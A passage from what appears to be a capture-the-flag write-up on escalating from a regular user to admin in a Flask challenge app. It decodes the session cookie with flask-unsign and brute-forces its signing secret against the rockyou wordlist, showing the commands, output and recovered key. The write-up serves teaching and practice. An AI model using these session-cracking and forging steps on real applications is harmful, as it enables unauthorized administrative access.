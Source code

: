 - we redirected to `/user`, there is nothing to do with it, no functionalities.
    
    ![Untitled](/assets/images/ASCWG-Fathers-Light/Untitled.png)
    

# Regular user to Admin user

- we noticed in the last response that the server sent a session, flask session 🤔hmm, did you think of what I thought, we can decode this session token using `flask-unsign` and brute force the secret to sign a new modified one. Easy, right?
    
    ```html
    Set-Cookie: session=.eJyrVsosjk9Myc3MU7JKS8wpTtVRKi1OLYrPTFGyUjI0M1KC8PMSc1OBAhCFtQDj5xGP.ZM0uxw.Z1agEdPmnggokr26qAjRfzOkn9k; HttpOnly; Path=/
    ```
    
- decoding the cookie
    
    ```bash
    ┌──(juba㉿legion-5-kali-vm)-[~]
    └─$ flask-unsign --decode --cookie ".eJyrVsosjk9Myc3MU7JKS8wpTtVRKi1OLYrPTFGyUjI0M1KC8PMSc1OBAhCFtQDj5xGP.ZM0uxw.Z1agEdPmnggokr26qAjRfzOkn9k"                                     
    
    {'is_admin': False, 'user_id': '162', 'username': 'admin'}
    ```
    
- brute-force the secret
    
    ```bash
    ┌──(juba㉿legion-5-kali-vm)-[~]
    └─$ flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie ".eJyrVsosjk9Myc3MU7JKS8wpTtVRKi1OLYrPTFGyUjI0M1KC8PMSc1OBAhCFtQDj5xGP.ZM0uxw.Z1agEdPmnggokr26qAjRfzOkn9k" --no-literal-eval     
    
    [*] Session decodes to: {'is_admin': False, 'user_id': '162', 'username': 'admin'}
    [*] Starting brute-forcer with 8 threads..
    [+] Found secret key after 30080 attempts
    b'amorlove'
    ```
    